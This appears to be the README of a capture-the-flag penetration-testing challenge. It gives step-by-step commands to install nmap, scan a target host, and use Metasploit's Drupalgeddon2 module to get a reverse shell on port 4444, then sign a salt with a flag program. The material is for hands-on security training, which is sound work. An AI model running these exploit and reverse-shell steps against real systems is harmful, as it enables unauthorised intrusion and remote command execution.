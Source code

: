 Use nmap to scan for open ports of the provided host, identify applications running on each port, use Metaploit or a exploit script you find online to take advantage of the first vulnerability.

#### Getting setup
Here are instructions on how to get your pen-tester environment setup:

#### Instructions for Completing the Challenge
- Run nmap
- Run metasploit or a different exploit script to take advantage of a vulnerability in the first identified app
- Execute commands remotely
- Find the flag program in the current directory and use it to sign the challenge salt: `./flag <SALT>`

##### Nmap
Install nmap. You can use a unofficial docker image or install it directly on your VM: 

`docker pull securecodebox/nmap`

OR for Debian/Ubuntu:

`apt-get install nmap`
 
OR for RedHat/CentOS:

`rpm -vhU https://nmap.org/dist/nmap-7.80-1.x86_64.rpm`

Once nmap is installed you can scan the target host with `nmap <target_host> -Pn -p-`

##### Metasploit
If you have Docker installed you can simply run the metasploit container image. Here's how to do it:

###### Pull metasploit docker image from DockerHub

`docker pull metasploitframework/metasploit-framework`

###### Run metasploit container, forward port 4444 (needed for reverse shell), make sure those ports are open in security groups etc in your metasploit machine

`docker run -it -p 4444-4450:4444-4450 metasploitframework/metasploit-framework`

###### Search for the exploit you'd like to use based on nmap results, in this challenge look for Drupal exploits

`search drupal`

###### Select the Drupalgeddon2 exploit from the list

`use exploit/unix/webapp/drupal_drupalgeddon2`

###### Set the host and port for the attacker's and victim's machine

`set RHOSTS <host>`
`set RPORT <port>`
`set LHOST <remote ip of metasploit machine>`
`set LPORT 4444`

###### Run the exploit!

`run`

###### This may fail in some cases, if it fails once reset the LHOST and run again

`set LHOST <remote ip of metasploit machine>`
`run`

###### You should be able to get shell at this point and run commands in the container. Can you get the flag?

